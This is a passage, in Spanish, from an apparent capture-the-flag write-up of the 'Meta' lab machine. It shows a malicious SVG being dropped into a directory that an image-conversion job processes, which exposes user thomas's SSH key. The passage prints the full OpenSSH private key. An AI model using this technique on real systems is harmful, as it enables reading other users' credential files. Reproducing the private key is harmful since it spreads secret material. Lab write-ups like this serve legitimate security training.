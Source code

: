 Ahora vamos a copear el archivo **.svg** ala ruta donde ejecuta el comando 

```bash
www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

Una vez ejecutada la tarea ahora tenemos permisos de lectura de la `id_rsa` de **thomas** y la tenemos en el directorio donde estamos 

```bash
www-data@meta:/dev/shm$ ls -la
total 3040
drwxrwxrwt  2 root     root         100 Jun 18 21:53 .
drwxr-xr-x 16 root     root        3080 Jun 18 19:52 ..
-rw-r--r--  1 thomas   thomas      2590 Jun 18 21:53 id_rsa
-rw-r--r--  1 www-data www-data     419 Jun 18 21:52 poc.svg
-rwxr-xr-x  1 www-data www-data 3104768 Jun 18 21:30 pspy64
www-data@meta:/dev/shm$ 
```

```bash
www-data@meta:/dev/shm$ cat id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
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
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=
-----END OPENSSH PRIVATE KEY-----
www-data@meta:/dev/shm$ 
```
